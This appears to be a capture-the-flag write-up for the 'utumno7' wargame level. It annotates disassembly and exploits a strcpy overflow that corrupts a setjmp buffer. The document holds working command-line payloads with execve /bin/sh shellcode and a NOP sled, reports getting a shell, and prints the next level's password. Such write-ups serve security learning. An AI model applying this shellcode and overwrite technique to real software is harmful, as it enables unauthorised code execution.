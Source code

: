 Dump of assembler code for function main:
```assembly
   0x08048501 <+0>:	push   ebp
   0x08048502 <+1>:	mov    ebp,esp
   0x08048504 <+3>:	cmp    DWORD PTR [ebp+0x8],0x1		#argc
   0x08048508 <+7>:	jg     0x8048511 <main+16>		#if more than 1 arg
   0x0804850a <+9>:	push   0x1
   0x0804850c <+11>:	call   0x8048380 <exit@plt>
   0x08048511 <+16>:	push   0x80485d0
   0x08048516 <+21>:	call   0x8048370 <puts@plt>		#displays some message
   0x0804851b <+26>:	add    esp,0x4
   0x0804851e <+29>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048521 <+32>:	add    eax,0x4
   0x08048524 <+35>:	mov    eax,DWORD PTR [eax]		#get arg1
   0x08048526 <+37>:	push   eax
   0x08048527 <+38>:	call   0x80484ab <vuln>			#call vuln function
   0x0804852c <+43>:	add    esp,0x4
   0x0804852f <+46>:	mov    eax,0x0
   0x08048534 <+51>:	leave  
   0x08048535 <+52>:	ret
```
Dump of assembler code for function vuln:
```assembly
   0x080484ab <+0>:	push   ebp
   0x080484ac <+1>:	mov    ebp,esp
   0x080484ae <+3>:	sub    esp,0x120
   0x080484b4 <+9>:	mov    DWORD PTR [ebp-0x4],0x0
   0x080484bb <+16>:	lea    eax,[ebp-0xa0]
   0x080484c1 <+22>:	mov    ds:0x8049868,eax
   0x080484c6 <+27>:	lea    eax,[ebp-0xa0]
   0x080484cc <+33>:	push   eax				#vulnrable buffer
   0x080484cd <+34>:	call   0x8048350 <_setjmp@plt>		#setjmp is used to store all env vars
   0x080484d2 <+39>:	add    esp,0x4				#in buffer: [ebp-0xa0]
   0x080484d5 <+42>:	mov    DWORD PTR [ebp-0x4],eax
   0x080484d8 <+45>:	cmp    DWORD PTR [ebp-0x4],0x0
   0x080484dc <+49>:	jne    0x80484fa <vuln+79>
   0x080484de <+51>:	push   DWORD PTR [ebp+0x8]
   0x080484e1 <+54>:	lea    eax,[ebp-0x120]
   0x080484e7 <+60>:	push   eax
   0x080484e8 <+61>:	call   0x8048360 <strcpy@plt>		#strcpy of arg1 addr to ebp-120
   0x080484ed <+66>:	add    esp,0x8				#we can overflow this
   0x080484f0 <+69>:	push   0x17
   0x080484f2 <+71>:	call   0x8048536 <jmp>			#jmp is used to restore all env vars
   0x080484f7 <+76>:	add    esp,0x4				#stored by setjmp
   0x080484fa <+79>:	mov    eax,0x0
   0x080484ff <+84>:	leave  
   0x08048500 <+85>:	ret
```
looking up setjmp vulnrbilities I see:
Calling setjmp saves the program environment into the buffer passed into the call. Later calling longjmp returns execution to the point at which setjmp was called and restores the context that was saved into the buffer. But the values of non-volatile local variables after longjmp are indeterminate. Additionally invoking longjmp from a nested signal handler is undefined, as is longjmping back to a method that has already completed execution

because we copy arg1 to [ebp-0x120] we can try to overwrite what was written by setjmp...
we must use at least 0x120-0xa0 = 128 to make it work. trying...
when running: r $(python -c 'print "A"*140 + "BBBB"')
we get an error because somehow ebp, esp were changed...
after some digging around: it seems like after jmp, some of the registers are full with "A"'s
and ebp is full with B's (plus 0x8)
we can put instead our buffer address!

(gdb) r $(python -c 'print "A"*140+"\x10\xd8\xff\xff"')
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

r $(python -c 'print "A"*3+"\x90"*50+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"\x90"*66+"\x10\xd8\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0x90909090 in ?? ()

were in control of ebp, and [ebp+4] => eip so we put in:
r $(python -c 'print "AAAA"+"\x40\xd8\xff\xff"+"\x90"*111+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"\x0d\xd8\xff\xff"')
and we got shell

try:
./utumno7 $(python -c 'print "AAAA"+"\x60\xd8\xff\xff"+"\x90"*111+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"\x2a\xd8\xff\xff"')
we get:
jaeyeetiav


